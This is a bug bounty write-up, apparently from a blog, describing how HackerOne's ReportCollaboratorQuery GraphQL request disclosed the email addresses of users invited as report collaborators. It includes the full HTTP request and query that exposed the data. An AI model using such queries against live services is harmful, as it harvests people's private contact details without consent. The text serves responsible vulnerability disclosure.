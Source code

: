 ```yaml
---
title: "Getting email address of any HackerOne user worth $7,500"
datePublished: Thu Aug 03 2023 01:52:20 GMT+0000 (Coordinated Universal Time)
cuid: clkui4x2v00050al5dltq2sk6
slug: getting-email-address-of-any-hackerone-user-worth-7500
tags: infosec-cjbi6apo9015yaywu2micx2eo, bugbounty, hackerone

---
```


> ***Severity: High (7.5)  
> Weakness: Sensitive Information Disclosure  
> Bounty:* Duplicate *(The first researcher receives $7,500)***

Hey hunters, I’m back!

Just wanna share my recent finding in HackerOne’s own bug bounty program. This finding is pretty much straight forward :)

After submitting a report on HackerOne, I added my brother [hackerone.com/r3y](http://hackerone.com/r3y) to the collaborator and observed that the UI for adding collaborators was changed — see below (hmm interesting).

![](https://miro.medium.com/v2/resize:fit:700/1*MVbip_vFYXupU_qrnVDcYg.png align="center")

When I am seeing updates, I always try to play with it so I capture the request while adding collaborator and observed this new GraphQL query *“operationName”:”ReportCollaboratorQuery”*

I took 3 analysts' usernames including Co-Founder Jobert’s HackerOne username to test for PoC purposes and record the proof-of-concept.

Upon checking the response, I noticed that the email address of all collaborators was disclosed despite I used their HackerOne username only to invite them to the report.

```graphql
POST /graphql HTTP/2
Host: hackerone.com
Cookie: <redacted>
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer:<redacted>
Content-Type: application/json
X-Csrf-Token: <redacted>
X-Product-Area: other
X-Product-Feature: other
Content-Length: 832
Origin: https://hackerone
<SNIP>

{
  "operationName": "ReportCollaboratorQuery",
  "variables": {
    "reportId": <report-id>
  },
  "query": "query ReportCollaboratorQuery($reportId: Int!) {\n  report(id: $reportId) {\n    report_collaborators {\n      total_count\n      edges {\n        node {\n          id\n          user {\n            id\n            username\n            __typename\n          }\n          bounty_weight\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    report_collaborator_invitations {\n      total_count\n      edges {\n        node {\n          id\n          state\n          email\n          bounty_weight\n          recipient {\n            id\n            username\n            __typename\n          }\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"
}
```
